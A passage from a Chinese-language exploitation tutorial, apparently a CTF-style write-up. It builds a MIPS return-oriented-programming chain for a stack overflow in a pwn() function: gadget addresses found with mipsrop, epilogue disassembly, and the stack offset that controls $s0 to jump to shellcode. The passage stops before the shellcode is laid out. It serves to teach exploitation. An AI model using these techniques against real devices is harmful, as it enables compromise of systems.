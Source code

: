 这里可以找到13个gadget，我们以第一个为例：

|  Address     |  Action             |  Control Jump            |
| --------     |  ------------------ | ------------------------ | 
|  0x004273C4  |  addiu $a2,$sp,0x64 |  jalr  $s0               |


这个gadget会将$sp寄存器的值加上0x64放到$a2寄存器中，然后跳转到$s0寄存器中的地址去执行。那么如果我们能控制$s0寄存器的值指向一个跳转$a2的gadget,然后在`$sp+0x64`栈地址上布置shellcode即可利用成功。于是我们需要完成以下操作：

1. 找到能跳转到$a2的gadget
2. 控制$s0寄存器到如上gadget
3. 在`$sp+0x64`的栈地址上布置shellcode

#### 目标寄存器的跳转指令

如何找到跳转到$a2的gadget呢？在mips汇编中，间接跳转通常由`$t9`寄存器实现，故可以搜索如下gadget：

```python
mipsrop.find("move $t9,$a2")
```

可以找到：

|  Address     |  Action             |  Control Jump            |
| --------     |  ------------------ | ------------------------ | 
|  0x00421684  |  move $t9,$a2       |  jr    $a2               |

完成目标1，那么如果控制$s0呢？

#### 控制s组寄存器

这个在前文的MIPS基础知识中提到过，在MIPS的复杂函数的序言和尾声中，会保存和恢复s组寄存器，我们可以下`pwn()`函数尾声的汇编代码：

```python
.text:00400A2C                 move    $sp, $fp
.text:00400A30                 lw      $ra, 0x7C($sp)
.text:00400A34                 lw      $fp, 0x78($sp)
.text:00400A38                 lw      $s7, 0x74($sp)
.text:00400A3C                 lw      $s6, 0x70($sp)
.text:00400A40                 lw      $s5, 0x6C($sp)
.text:00400A44                 lw      $s4, 0x68($sp)
.text:00400A48                 lw      $s3, 0x64($sp)
.text:00400A4C                 lw      $s2, 0x60($sp)
.text:00400A50                 lw      $s1, 0x5C($sp)
.text:00400A54                 lw      $s0, 0x58($sp)
.text:00400A58                 addiu   $sp, 0x80
.text:00400A5C                 jr      $ra
.text:00400A60                 nop
```

故我们之前溢出时，在`0x90`控制了`$ra`，则我们在`0x90-0x7c+0x58=0x6c`处，即可控制`$s0`


#### 布置shellcode

因为在函数的尾声处会把栈空间收回：
